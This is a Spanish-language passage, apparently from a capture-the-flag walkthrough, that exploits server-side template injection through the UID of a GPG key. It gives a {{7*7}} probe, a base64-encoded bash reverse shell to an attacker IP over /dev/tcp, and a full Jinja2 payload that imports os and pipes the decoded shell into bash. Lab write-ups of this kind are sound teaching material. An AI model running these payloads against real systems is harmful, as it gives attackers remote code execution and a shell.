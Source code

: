 Para terminar le damos **save** para guardar cambios, volvemos a generar la clave, firmamos un texto y probamos en el sitio web

```ruby
gpg --armor --export "{\{7*7}} <c4rta@email.com>" | sponge pubkey.asc
```

```ruby
echo 'nazuna besto waifu' | gpg --clear-sign
```

Observa como en la respuesta sale un **49**

![](/assets/img/sandworm/8.png)

Eso quiere decir que la operacion se realizo por que el motor de plantillas proceso el payload e inyecto el resultado en la plantilla para luego mostrarlo en el sitio web, y con eso confirmamos que es vulnerable a **SSTI**


Ahora haremos lo mismo de modificar el UID, generar la clave, etc, para conseguir RCE y tener una rev shell


```ruby
echo "bash -c 'bash -i >& /dev/tcp/<tu IP>/444 0>&1'" | base64
```

Y el payload queda asi:

![](/assets/img/sandworm/10.png)

\{\{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NS80NDQgMD4mMScK" | base64 -d | bash').read() }}
